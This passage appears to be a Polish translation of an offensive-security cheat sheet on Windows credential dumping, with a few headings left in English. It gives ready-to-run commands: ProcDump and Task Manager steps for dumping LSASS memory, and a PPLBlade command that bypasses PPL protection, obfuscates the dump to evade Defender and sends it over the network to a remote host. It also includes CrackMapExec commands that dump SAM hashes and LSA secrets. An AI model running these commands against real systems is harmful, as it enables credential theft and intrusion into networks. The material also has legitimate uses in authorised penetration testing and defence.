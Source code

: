 ### **Zrzucanie lsass za pomocą Menedżera zadań**

1. Kliknij prawym przyciskiem myszy na Pasek zadań i wybierz Menedżer zadań
2. Kliknij na Więcej szczegółów
3. Wyszukaj proces "Local Security Authority Process" na karcie Procesy
4. Kliknij prawym przyciskiem myszy na proces "Local Security Authority Process" i wybierz "Utwórz plik zrzutu".

### Zrzucanie lsass za pomocą procdump

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) to podpisany przez Microsoft plik binarny, który jest częścią pakietu [sysinternals](https://docs.microsoft.com/en-us/sysinternals/).
```
Get-Process -Name LSASS
.\procdump.exe -ma 608 lsass.dmp
```
## Dumpin lsass with PPLBlade

[**PPLBlade**](https://github.com/tastypepperoni/PPLBlade) to narzędzie do zrzutu chronionych procesów, które obsługuje zaciemnianie zrzutu pamięci i przesyłanie go na zdalne stacje robocze bez zapisywania na dysku.

**Kluczowe funkcjonalności**:

1. Omijanie ochrony PPL
2. Zaciemnianie plików zrzutu pamięci w celu uniknięcia mechanizmów wykrywania opartych na sygnaturach Defendera
3. Przesyłanie zrzutu pamięci metodami RAW i SMB bez zapisywania na dysku (zrzut bezplikowy)

{% code overflow="wrap" %}
```bash
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```
{% endcode %}

## CrackMapExec

### Dump SAM hashes

### Zrzut haseł SAM

```bash
cme smb <target_ip> -u <username> -p <password> --sam
```

### Dump LSA Secrets

### Zrzut LSA Secrets

```bash
cme smb <target_ip> -u <username> -p <password> --lsa
```
